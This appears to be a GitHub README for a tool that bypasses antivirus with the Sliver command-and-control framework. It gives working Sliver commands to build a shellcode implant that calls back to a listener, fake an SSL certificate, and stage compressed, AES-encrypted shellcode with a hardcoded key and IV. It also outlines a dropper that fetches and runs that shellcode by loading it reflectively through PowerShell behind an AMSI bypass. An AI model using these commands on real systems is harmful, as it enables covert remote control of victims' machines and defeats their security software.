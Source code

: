 # Bypass AV with Sliver c2
Dropper + reflective load script for bypassing AV with sliver c2

Taken from [this article](https://medium.com/@youcef.s.kelouaz/writing-a-sliver-c2-powershell-stager-with-shellcode-compression-and-aes-encryption-9725c0201ea8).

Compression is a huge IOC so I may change this to remove

## In Sliver

Create new profile
`profiles new -b  https://192.168.1.11:443 --skip-symbols --format shellcode --arch amd64 my_profile`

Host SSL cert (you can fake with msf impersonate_ssl)
`https -L 192.168.1.11 -l 443 -c /home/ycf/blog/sliver/crt.crt -k /home/ycf/blog/sliver/key.key`

Stage profile shellcode
`stage-listener --url https://192.168.1.11:8080 --profile my_profile -c /home/ycf/blog/sliver/crt.crt -k /home/ycf/blog/sliver/key.key -C deflate9 --aes-encrypt-key D(G+KbPeShVmYq3t6v9y$B&E)H@McQfT --aes-encrypt-iv 8y/B?E(G+KbPeShV`

## Dropper

Shellcode dropper solution will download, decompress, decrypt shellcode and execute. Best way is to reflectively load via PowerShell as it is .NET assembly, and the dropper is not evasive
at all (you need AMSI bypass).

Read in solution DLL assembly
`get-content -encoding byte -path .\sliverloader.dll | clip`



Use CLR AMSI bypass for entire process unhook.
